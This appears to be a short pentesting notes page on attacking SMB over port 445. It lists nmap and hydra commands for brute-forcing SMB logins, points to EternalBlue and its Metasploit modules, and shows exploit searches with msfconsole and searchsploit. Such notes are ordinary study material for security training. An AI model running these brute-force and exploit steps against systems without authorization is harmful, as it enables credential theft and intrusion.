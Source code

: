 ```yaml
---
id: Exploitation
aliases: []
tags:
  - Networking/Services/SMB
links: "[[SMB]]"
---
```


# Exploitation

## Port 445

### Brute force

Brute force SMB login

```sh
# Nmap
nmap --script smb-brute -p 445 <ip>

# Hydra
hydra -l {target_user} -P {password_list} {target_ip} smb -t 1
```

### EternalBlue

Some SMB versions may be vulnerable to RCE exploits such as
[EternalBlue](https://www.avast.com/c-eternalblue)

Metasploit has several [modules](https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/)
for EternalBlue that can be used to validate and exploit the vulnerability.

```sh
nmap -A -p445 10.129.42.253
```


### Metasploit

Search for exploits with Metasploit

```sh
msf> search type:exploit platform:windows target:2008 smb
searchsploit microsoft smb
```
